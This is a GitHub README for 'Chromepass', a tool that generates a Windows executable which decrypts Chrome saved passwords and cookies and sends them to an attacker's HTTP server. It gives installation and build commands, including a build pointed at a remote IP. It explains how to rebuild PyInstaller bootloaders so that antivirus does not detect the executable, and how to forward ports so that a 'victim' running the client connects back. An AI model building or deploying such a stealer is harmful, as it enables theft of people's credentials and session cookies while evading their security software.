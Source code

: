 <h1 align='center'>Chromepass - Hacking Chrome Saved Passwords and Cookies</h1>
<p align="center">	
    <img src="https://img.shields.io/badge/Platform-Windows-green" />
	<a href="https://github.com/darkarp/chromepass/releases/latest">
	<img src="https://img.shields.io/github/v/release/darkarp/chromepass" alt="Release" />
	</a>
  <a href="https://travis-ci.org/darkarp/chrome-password-hacking">
    <img src="https://img.shields.io/badge/build-passing-green" alt="Build Status on CircleCI" />
	</a>
    <img src="https://img.shields.io/maintenance/yes/2021" />
	</br>
  
  <a href="https://github.com/darkarp/chromepass/commits/master">
    <img src="https://img.shields.io/github/last-commit/darkarp/chromepass" />
  </a>
  <img alt="Scrutinizer code quality (GitHub/Bitbucket)" src="https://img.shields.io/scrutinizer/quality/g/darkarp/chromepass?style=flat">
  <a href="https://github.com/darkarp/chromepass/blob/master/LICENSE">
    <img src="http://img.shields.io/github/license/darkarp/chromepass" />
  </a>
  </br>
  <a href="https://github.com/darkarp/chromepass/issues?q=is%3Aopen+is%3Aissue">
	<img alt="GitHub issues" src="https://img.shields.io/github/issues/darkarp/chromepass">
</a
<a href="https://github.com/darkarp/chromepass/issues?q=is%3Aissue+is%3Aclosed">
	<img alt="GitHub closed issues" src="https://img.shields.io/github/issues-closed/darkarp/chromepass">
</a>
</br>
  <a href="https://discord.gg/beczNYP">
    <img src="https://img.shields.io/badge/discord-join-7289DA.svg?logo=discord&longCache=true&style=flat" />
  </a>
  </br>
    <a href="https://i.imgur.com/WtaFA6c.gif" target="_blank">View Demo</a>
    ·
    <a href="https://github.com/darkarp/chromepass/issues/new?assignees=&labels=&template=bug_report.md&title=">Report Bug</a>
    ·
    <a href="https://github.com/darkarp/chromepass/issues/new?assignees=&labels=&template=feature_request.md&title=">Request Feature</a>
  </p>  
  
  
<!-- TABLE OF CONTENTS -->
## Table of Contents

* [About the Project](#about-the-project)  
	* [AV Detection](#av-detection)
* [Getting started](#getting-started)
  * [Prerequisites](#dependencies-and-requirements)
  * [Installation](#installation)
* [Usage](#usage)
* [Todo](#todo)
* [Errors, Bugs and Feature Requests](#errors-bugs-and-feature-requests)
* [Learn More](#learn-more)
* [License](#license)
---
## About The project
Chromepass is a python-based console application that generates a windows executable with the following features:

  - Decrypt Chrome saved paswords
  - Send a file with the login/password combinations remotely (http server)
  - Undetectable by AV if done correctly
  - Custom icon
  - Custom error message

---

### AV Detection!
This can be undetected with a very easy step detailed below. The reason why it's detected is because many AVs get tripped by the popular signatures of pyinstaller. To mitigate this, you can build the bootloaders manually. You can do this on a clean VM if you wish:
 - Go through the [Installation](#installation) first
 - Open an administrator powershell
 - Run the following code and wait for it to finish, it might take a while: 
```powershell
Set-ExecutionPolicy remotesigned -Force; [System.Net.ServicePointManager]::SecurityProtocol = [System.Net.ServicePointManager]::SecurityProtocol -bor 3072; iex ((New-Object System.Net.WebClient).DownloadString('https://chocolatey.org/install.ps1')); choco install -y python vcbuildtools git
```
 - Close the powershell window and open a new one (doesn't require administrator)
 - Go into the chromepass directory, if you're not in it already.
 - Run the following code: 
  ```powershell
     git clone https://github.com/pyinstaller/pyinstaller.git
     pip uninstall pyinstaller -y
     cd pyinstaller/bootloader
     python waf all
     cd ..
     pip install .
  ```
 - Now you can follow the [Usage](#usage) normally and your executable is no longer detected by most AVs. There are some additional things you can do to make it completely undetectable. I'll leave you to discover what some of those things are.  
 ---
## Getting started

### Dependencies and Requirements

This is a very simple application, which uses only:

* [Python] - Tested on python 3.6+

### Installation

Chromepass requires Windows to run! Support for linux and MacOS may be added soon

Clone the repository:
```powershell
git clone https://github.com/darkarp/chromepass
```

Install the dependencies:

```powershell
cd chromepass
pip install -r requirements.txt
```

If any errors occur make sure you're running on the proper environment (if applcable) and that you have python 3.6+
If the errors persist, try:
```powershell
python -m pip install --upgrade pip
python -m pip install -r requirements.txt
```  

---

## Usage

Chromepass is very straightforward. Start by running:
```powershell
> python create.py -h
```
A list of options will appear and are self explanatory.

Running without any parameters will build the server and the client connecting to `127.0.0.1`. 

A simple example of a build:
```powershell
python create.py --ip 92.34.11.220 --error --message "An Error has happened"
```

After creating the server and the client, make sure you're running the server when the client is ran.

The cookies and passwords will be saves in `json` files on a new folder called `data` in the same directory as the server, separated by ip address.

If you'd like additional notes on evading AV, refer to [AV Detection](#av-detection)  

### Remote Notes
>If you'd like to use this in a remote scenario, you must also perform port forwarding (port 80), so that when the victim runs the client it is able to connect to the server on port 80.  
For more general information, click [here](https://www.noip.com/support/knowledgebase/general-port-forwarding-guide/). If you're still not satisfied, perform a google search.

---
 
## Errors, Bugs and feature requests

If you find an error or a bug, please report it as an issue.
If you wish to suggest a feature or an improvement please report it in the issue pages.

Please follow the templates shown when creating the issue.  

---

## Learn More

For access to a community full of aspiring computer security experts, ranging from the complete beginner to the seasoned veteran,
join our Discord Server: [WhiteHat Hacking](https://discord.gg/beczNYP)

If you wish to contact me, you can do so via: `mario@whitehathacking.tech` 

---

## Disclaimer
I am not responsible for what you do with the information and code provided. This is intended for professional or educational purposes only.

## License
<a href="https://github.com/darkarp/chromepass/blob/master/LICENSE"> MIT </a>
   
[Python]: <https://www.python.org/downloads/>
